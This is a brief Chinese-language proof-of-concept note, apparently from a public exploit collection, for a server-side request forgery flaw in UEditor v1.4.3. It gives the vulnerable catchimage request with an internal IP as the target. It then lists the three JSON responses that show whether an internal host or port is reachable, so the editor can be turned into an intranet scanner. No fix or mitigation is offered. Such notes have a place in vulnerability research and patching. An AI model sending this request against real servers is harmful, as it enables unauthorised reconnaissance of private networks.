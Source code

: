 # Ueditor ssrf漏洞

## 漏洞影响：

v1.4.3

## 漏洞POC

存在漏洞路径：

http://localhost:8088/jsp/controller.jsp?action=catchimage&source[]=http://192.168.135.133:8080/test.jpg

可根据页面返回的结果不同判断该地址端口是否开放：

1. 如果抓取不存在的图片地址时，页面返回{"state": "SUCCESS", list: [{"state":"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}，即state为“远程连接出错”。
2. 如果成功抓取到图片，页面返回{"state": "SUCCESS",  list: [{"state":  "SUCCESS","size":"5103","source":"http://192.168.135.133:8080/tomcat.png","title":"1527173588127099881.png","url":"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"} ]}，即state为“SUCCESS”。
3. 如果主机无法访问，页面返回{"state":"SUCCESS", list: [{"state": "\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25"}]}，即state为“抓取远程图片失败”。

由于除了在config.js中的catcherLocalDomain配置了过滤的地址外，没有针对内部地址进行过滤，所以可以根据抓取远程图片返回结果的不同，来进行内网的探测。